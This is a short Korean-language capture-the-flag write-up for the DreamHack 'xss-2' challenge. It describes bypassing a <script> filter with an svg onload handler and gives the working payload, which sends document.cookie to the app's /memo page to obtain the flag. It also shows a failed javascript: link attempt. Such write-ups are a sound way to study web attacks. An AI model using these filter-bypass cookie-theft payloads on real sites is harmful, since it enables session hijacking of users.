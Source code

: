 #xss-2 풀이법

---

[ xss-1 풀이 ][1]

[1]: https://github.com/ckswls56/DreamHack/blob/main/Web%20Hacking/xss-1/ReadMe.md

xss-1처럼 시도하였지만 &lt;script&gt;가 필터링 되는듯 하였다. 즉 우회를 하여 풀어야 했다. <br>
참고문헌 <br>
https://blog.rubiya.kr/index.php/2019/03/28/browsers-xss-filter-bypass-cheat-sheet/

---

첫번쨰 시도<br>
&lt;a href="javascript:alert(1)">Link</a&gt; <br>
실패

---

두번쨰 시도
svg onload=alert(1) 성공 이후 폼 입력 페이지에서 다음을 입력하여 Flag 흭득<br>
&lt;svg onload='location.href="/memo?memo="+document.cookie'&gt;
